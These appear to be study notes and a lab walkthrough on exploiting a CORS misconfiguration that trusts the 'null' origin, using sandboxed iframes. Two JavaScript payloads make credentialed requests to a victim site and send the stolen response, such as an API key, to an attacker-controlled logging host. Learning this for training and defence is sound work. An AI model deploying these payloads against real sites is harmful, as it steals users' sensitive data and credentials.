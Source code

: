 Some apps might whitelist the `null` origin to support local development of the app. 
For example, suppose an app receives the following cross-origin request:

```http
GET /sensitive-victim-data 
Host: vulnerable-website.com 
Origin: null
```

And the server responds with:
```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: null 
Access-Control-Allow-Credentials: true
```
=>
In this situation, an attacker can:
use various tricks to generate a cross-origin req contain the value `null` in the Origin header. This will:
- satisfy the whitelist
- leading to cross-domain access

For example, this can be done using a sandboxed `iframe` cross-origin request of the form:
```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

#### CORS vulnerability with trusted null origin
- Check intercept is off, then use Burp's browser to log in to your account. Click "My account".
- Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
- Send the request to Burp Repeater, and resubmit it with the added header `Origin: null.`
- Observe that the "null" origin is reflected in the `Access-Control-Allow-Origin` header.
- In the browser, go to the exploit server and enter the following HTML, replacing `YOUR-LAB-ID` with the URL for your unique lab URL and `YOUR-EXPLOIT-SERVER-ID` with the exploit server ID:
- 
```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```
- Notice the use of an iframe sandbox as this generates a null origin request.
- Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.
- Go back to the exploit server and click "Deliver exploit to victim".
- Click "Access log", retrieve and submit the victim's API key to complete the lab
